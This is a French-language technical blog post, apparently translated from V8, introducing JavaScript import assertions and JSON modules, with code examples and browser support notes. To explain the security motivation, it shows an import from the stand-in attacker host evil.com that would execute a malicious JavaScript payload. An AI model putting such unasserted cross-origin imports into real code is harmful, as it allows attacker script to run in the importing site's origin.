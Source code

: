 ```yaml
---
title: &apos;Assertions d'importation&apos;
author: &apos;Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), importateur assertif d&apos;assertions d&apos;importation&apos;
avatars:
  - &apos;dan-clark&apos;
date: 2021-06-15
tags:
  - ECMAScript
description: &apos;Les assertions d&apos;importation permettent aux instructions d&apos;importation de module d&apos;inclure des informations supplémentaires en plus du spécificateur de module&apos;
tweet: &apos;&apos;
---
```


La nouvelle fonctionnalité [assertions d'importation](https://github.com/tc39/proposal-import-assertions) permet aux instructions d'importation de module d'inclure des informations supplémentaires en plus du spécificateur de module. Une utilisation initiale de cette fonctionnalité est de permettre l'importation de documents JSON sous forme de [modules JSON](https://github.com/tc39/proposal-json-modules) :

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from &apos;./foo.json&apos; assert { type: &apos;json&apos; };
console.log(json.answer); // 42
```

## Contexte : Modules JSON et type MIME

Une question naturelle à poser est pourquoi un module JSON ne pourrait pas simplement être importé comme suit :

```javascript
import json from &apos;./foo.json&apos;;
```

La plateforme web vérifie le type MIME d'une ressource de module pour sa validité avant de l'exécuter, et en théorie ce type MIME pourrait également être utilisé pour déterminer s'il faut traiter la ressource comme un module JSON ou JavaScript.

Cependant, il existe un [problème de sécurité](https://github.com/w3c/webcomponents/issues/839) en se basant uniquement sur le type MIME.

Les modules peuvent être importés de manière inter-origin, et un développeur pourrait importer un module JSON d'une source tierce. Il pourrait considérer cela comme fondamentalement sûr même venant d'une source non fiable tant que le JSON est correctement désinfecté, puisque l'importation de JSON n'exécutera pas de script.

Cependant, un script tiers peut en réalité être exécuté dans ce scénario car le serveur tiers pourrait répondre de manière inattendue avec un type MIME JavaScript et une charge utile JavaScript malveillante, exécutant du code dans le domaine de l'importateur.

```javascript
// Exécute JS si evil.com répond avec un
// type MIME JavaScript (par exemple `text/javascript`) !
import data from &apos;https://evil.com/data.json&apos;;
```

Les extensions de fichier ne peuvent pas être utilisées pour déterminer le type de module car elles [ne sont pas un indicateur fiable du type de contenu sur le web](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Nous utilisons donc des assertions d'importation pour indiquer le type de module attendu et prévenir ce piège d'escalade de privilèges.

Lorsqu'un développeur souhaite importer un module JSON, il doit utiliser une assertion d'importation pour spécifier qu'il s'agit de JSON. L'importation échouera si le type MIME reçu du réseau ne correspond pas au type attendu :

```javascript
// Échoue si evil.com répond avec un type MIME non-JSON.
import data from &apos;https://evil.com/data.json&apos; assert { type: &apos;json&apos; };
```

## `import()` dynamique

Les assertions d'importation peuvent également être passées à [`import()` dynamique](https://v8.dev/features/dynamic-import#dynamic) avec un nouveau deuxième paramètre :

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import(&apos;./foo.json&apos;, {
  assert: { type: &apos;json&apos; }
});
console.log(jsonModule.default.answer); // 42
```

Le contenu JSON est l'exportation par défaut du module, il est donc référencé via la propriété `default` sur l'objet retourné par `import()`.

## Conclusion

Actuellement, la seule utilisation spécifiée des assertions d'importation est pour la spécification du type de module. Cependant, la fonctionnalité a été conçue pour permettre des paires clé/valeur d'assertions arbitraires, de sorte que des utilisations supplémentaires pourraient être ajoutées à l'avenir si cela devient utile pour restreindre les importations de modules d'autres manières.

En attendant, les modules JSON avec la nouvelle syntaxe d'assertions d'importation sont disponibles par défaut dans Chromium 91. [Les scripts de modules CSS](https://chromestatus.com/feature/5948572598009856) arrivent bientôt également, utilisant la même syntaxe d'assertion de type de module.

## Prise en charge des assertions d'importation

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="non"
                 safari="non"
                 nodejs="non"
                 babel="oui https://github.com/babel/babel/pull/12139"></feature-support>
